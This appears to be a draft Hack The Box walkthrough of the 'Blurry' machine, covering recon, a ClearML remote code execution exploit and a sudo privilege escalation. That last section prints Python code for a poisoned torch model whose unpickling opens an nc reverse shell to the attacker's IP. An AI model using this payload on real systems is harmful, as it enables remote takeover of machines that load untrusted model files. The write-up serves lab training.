 ```yaml
---
title: "Blurry Walkthrough(Hack The Box)"
date: 2025-04-05
draft: true
description: "a description"
tags: ["Medium", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Linux
- Got two ports open
- ![[Pasted image 20241230011755.png]]
- We got the main app at `app.blurry.htb`
## Enumeration
- Got multiple subdomains
- `files`, `app`, `chat`, `api` 
- ![[Pasted image 20241230012112.png]]
- Learnt about the project in `app` from `chat` announcements.
## Exploitation
- Found a exploit `CVE-2024-24590-ClearML-RCE-Exploit`
- Followed the steps and initiated the clearML on the host 
- Ran the exploit and got the shell
- ![[Pasted image 20241230012804.png]]
- Also got the user flag
- ![[Pasted image 20241230022137.png]]
## Privilege Escalation
- Had a `sudo` priv esc path
- ![[Pasted image 20241230031047.png]]
- This script basically runs and gets a file as input and check whether it is malicious or not.
- I made a program in python using torch. Using this script can get reverse shell as root
- I learned about this vulnerability in the same blog
```python
import torch  
import torch.nn as nn  
import os  
  
class MaliciousModel(nn.Module):  
    def __init__(self):  
        super(MaliciousModel, self).__init__()  
        self.dense = nn.Linear(10, 1)  
      
    def forward(self, pk):  
        return self.dense(pk)  
     
    def __reduce__(self):  
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.65 9001 >/tmp/f"  
        return os.system, (cmd,)  
  
malicious_model = MaliciousModel()  
torch.save(malicious_model, 'pk2212.pth')
```
- Executed the script
- ![[Pasted image 20241230031501.png]]
- Got the root shell and flag
- ![[Pasted image 20241230031533.png]]
